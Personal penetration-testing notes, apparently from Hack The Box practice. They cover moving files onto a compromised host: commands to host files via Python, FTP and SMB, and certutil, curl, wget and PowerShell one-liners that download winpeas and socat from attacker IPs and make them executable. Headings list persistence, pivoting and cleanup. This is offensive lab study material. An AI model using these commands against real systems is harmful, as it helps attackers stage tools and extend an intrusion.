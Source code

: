 
>[! warning] Tool called Hack-tools Extension

Transfer methods Column 
![[Pasted image 20241120063050.png | 450]]


- [ ] File Transfers 

Hosting Python / SMB / ftp
```
python3 -m http.server 80
```

```
python -m pyftpdlib 21
```

```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```


<hr>

Downloading
Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.8\Hackthebox
```



Navigate | Browser


Certutil command 
```
certutil.exe -urlcache -f http://192.168.205.128/winpeas.exe winpeas.exe
```


Curl Command
```
curl 10.200.105.200/socat -o /tmp/socat && chmod +x /tmp/socat
```


Wget
```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Powershell
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

FTP
```
ftp 10.10.10.10
```


>[!bug ] Metasploit & Evil-winrm

Upload & Download option


- [ ] Maintaining Access Overview



- [ ] Pivoting Walkthrough Proxy-Chains (S Shuttle)
- [ ] Cleaning Up


